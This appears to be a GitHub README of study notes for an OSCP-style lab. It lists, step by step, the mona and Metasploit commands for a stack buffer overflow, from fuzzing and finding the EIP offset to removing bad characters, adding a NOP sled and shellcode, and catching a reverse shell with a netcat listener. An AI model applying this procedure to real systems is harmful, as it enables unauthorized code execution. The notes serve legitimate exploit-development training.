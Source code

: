 # BufferOverflow

Buffer overflow steps

xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
!mona config -set working folder c:\mona\%p

1. FUZZ w/ correct IP address + port
2. /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (fuzz + 400)
3. Run exploit.py with above payload in payload var
4. !mona findmsp -distance (fuzz + 400) (finds EIP offset)
5. Put offset in exploit.py + retn var BBBB + remove payload
6. !mona bytearray -b "\x00"
7. Run bad chars script, set payload to this
8. Run exploit, get ESP address
9. !mona compare -f C:\mona\oscp\bytearray.bin -a ESPAddress (check if chars are actually bad or not)
10. !mona bytearray -b "\x00\x07\x2e\xa0" (look for unmodified)
11. !mona jmp -r esp -cpb "\x00\x07\x2e\xa0" (or whatever bad chars)
12. Put address in return var (0x625011af should be written as \xAF\x11\x50\x62)
13. padding = "\x90" * 16
14. Run shellcode
15. Insert shellcode into exploit.py
16. Nc -nlvp 4444
17. Run program, run exploit.py
